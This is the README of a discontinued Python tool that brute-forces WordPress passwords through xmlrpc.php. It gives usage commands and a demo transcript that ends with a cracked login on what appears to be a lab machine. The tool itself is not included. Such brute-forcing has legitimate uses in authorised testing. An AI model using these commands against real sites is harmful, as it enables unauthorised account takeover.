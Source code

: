 <h4 align="center">An XMLRPC BruteForcer for Wordpress  - Inpired by (1N3@CrowdShield)</h4>

# Note - This project is discontinued

## Usage

```bash
python3 xmlrcpbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt username
python3 xmlrpcbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt userlist.txt ( >>in progess<<)
```
## Bugs

If you get an ```xml.etree.ElementTree.ParseError```:

* Did you forget to add 'xmlrpc' in the url ?
* Try to add or remove 'https' or 'www'.

## TODO

* Exception Handling for xml.etree.ElementTree.ParseError
* 'userlist' enumeration

## Demo

```bash
MacBook-Pro: kavish$ python3 xmlrpcbruteforce.py http://192.168.100.34/xmlrpc.php 10k-most-common.txt elliot

---------------Examining Target--------------------

[>] Target is vulnerable.

--=[Target: http://192.168.100.34/xmlrpc.php]=--

        	[...Bruteforcing...]
--=[Tried: 1000 passwords]=--
--=[Tried: 2000 passwords]=--
--=[Tried: 3000 passwords]=--
--------------- BRUTEFORCE SUCCESSFULL  ---------------
--=[User found]=--
Login: elliot
Password: ER28-0652
--=[Exiting...]=--
```

